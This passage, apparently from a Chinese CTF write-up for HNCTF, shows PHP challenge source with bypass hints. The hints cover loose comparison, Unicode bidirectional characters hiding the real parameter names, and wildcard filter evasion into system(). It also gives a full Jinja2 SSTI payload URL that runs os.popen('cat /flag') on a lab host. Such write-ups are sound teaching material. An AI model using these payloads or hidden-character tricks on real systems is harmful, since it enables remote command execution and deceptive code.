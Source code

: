 ```php
    // array_search弱比较，老考点了，直接传一个字符串或者数字0就行，data[]=a data[]=0
        $week_2 = true;

    else
        die("HACK!");
}
if($week_1 && $week_2){
    if(md5($data)===md5($verify))
        // ‮⁦HNCTF⁩⁦Welcome to
        if ("hn" == $_GET['hn'] &‮⁦+!!⁩⁦& "‮⁦ Flag!⁩⁦ctf" == $_GET[‮⁦LAG⁩⁦ctf]) { //HN! flag!! F
        // unicode，也是老考点了，直接复制下来然后url编码一下就行
            if(preg_match("/php|\fl4g|\\$|'|\"/i",$want)Or is_file($want))
                die("HACK!");

                else{
                    echo "Fine!you win";
                    system("cat ./$want");
                    // 使用?通配符，fl4g.php == f???????
                 }
    }
    else
        die("HACK!");
}

?>
```

### logjjjjlogjjjj



### ssssti

还是挺简单的**ssti**

```bash
http://43.143.7.97:28235/?name={{(x|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3))(request.values.x4).eval(request.values.x5)}}&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=__import__(%27os%27).popen(%27cat%20/flag%27).read()
```

